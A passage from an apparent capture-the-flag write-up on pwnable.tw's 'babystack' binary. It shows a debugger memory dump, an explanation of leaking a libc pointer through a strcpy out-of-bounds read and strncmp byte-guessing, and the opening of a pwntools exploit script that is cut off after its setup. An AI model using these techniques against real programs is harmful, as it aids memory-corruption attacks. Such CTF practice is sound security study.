 ```bash
pwndbg> x/20gx $rsi
0x7ffd511e8380: 0x000077d01c1c4642      0x00007ffd511e8550
0x7ffd511e8390: 0x0000000000000000      0x000077d01be7a409
0x7ffd511e83a0: 0x000000000000000e      0x000077d01c1c4620
0x7ffd511e83b0: 0x000000000000000a      0x00005e672b601156
0x7ffd511e83c0: 0x00007ffd511e8550      0x000077d01be7a81b
```

In particular, within offset `0x48`, at `0x7ffd511e83c8` there's a libc leakage. 
This means that if we'd fill the source buffer with exactly `0x48` bytes, the `strcpy` call would leak the extra `libc` pointer to our destination. \
Notice, that we must use offset of at least `0x40` - as the OOB-read vuln only allows reading values starting from the `password` address and beyond. 
The idea is that we only write small amount of bytes for previous leak, below `0x40` of the local `copy` buffer. 
Hence, the uninitialized content there remains. \
Now, we can utilize the `strncmp` vuln again, comparing bytes one by one - until we figure out the pointer value. \
Notice that by doing so, we've overwrote the first qword of the password with the pad bytes, and the second qword with the libc pointer leak.

### Solution

The following solution works great locally:

```python
#!/usr/bin/python3

from pwn import *

HOST = 'chall.pwnable.tw'
PORT = 10205
context.arch='amd64'
context.os = 'linux'
context.endian = 'little'
BINARY = './babystack'
LIBC = './libc_64.so.6'
LD = './ld-2.23.so'

GDB_SCRIPT = '''
tbreak __libc_start_main
commands
    # p "break copy"
    # b *$rdi - 0xecf + 0xebb
    # commands 
    #     p "gonna strcpy"
    # end

    # p "break login"
    # b *$rdi - 0xecf + 0xe43
    # commands 
    #     p "gonna strncmp"
    # end

    p "break main ret"
    b *$rdi - 0xecf + 0x1052
    commands
        p "in main ret"
    end

    c
end


```